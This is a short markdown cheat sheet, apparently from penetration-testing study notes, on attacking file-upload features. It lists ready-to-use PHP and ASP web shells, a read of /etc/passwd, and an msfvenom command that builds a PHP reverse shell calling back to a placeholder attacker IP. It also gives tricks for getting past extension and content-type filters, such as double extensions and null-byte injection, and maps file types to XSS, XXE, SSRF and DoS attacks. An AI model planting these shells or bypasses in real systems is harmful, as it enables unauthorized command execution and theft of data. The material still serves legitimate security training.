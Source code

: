 ## Web Shells

| **Web Shell**                                                                           | **Description**                       |
| --------------------------------------------------------------------------------------- | ------------------------------------- |
| `<?php file_get_contents('/etc/passwd'); ?>`                                            | Basic PHP File Read                   |
| `<?php system('hostname'); ?>`                                                          | Basic PHP Command Execution           |
| `<?php system($_REQUEST['cmd']); ?>`                                                    | Basic PHP Web Shell                   |
| `<% eval request('cmd') %>`                                                             | Basic ASP Web Shell                   |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`          | Generate PHP reverse shell            |
| [PHP Web Shell](https://github.com/Arrexel/phpbash)                                     | PHP Web Shell                         |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)                 | PHP Reverse Shell                     |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

## Bypasses

|**Command**|**Description**|
|---|---|
|**Client-Side Bypass**||
|`[CTRL+SHIFT+C]`|Toggle Page Inspector|
|**Blacklist Bypass**||
|`shell.phtml`|Uncommon Extension|
|`shell.pHp`|Case Manipulation|
|[PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)|List of PHP Extensions|
|[ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)|List of ASP Extensions|
|[Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)|List of Web Extensions|
|**Whitelist Bypass**||
|`shell.jpg.php`|Double Extension|
|`shell.php.jpg`|Reverse Double Extension|
|`%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…`|Character Injection - Before/After Extension|
|**Content/Type Bypass**||
|[Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)|List of Web Content-Types|
|[Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)|List of All Content-Types|
|[File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)|List of File Signatures/Magic Bytes|

## Limited Uploads

|**Potential Attack**|**File Types**|
|---|---|
|`XSS`|HTML, JS, SVG, GIF|
|`XXE`/`SSRF`|XML, SVG, PDF, PPT, DOC|
|`DoS`|ZIP, JPG, PNG|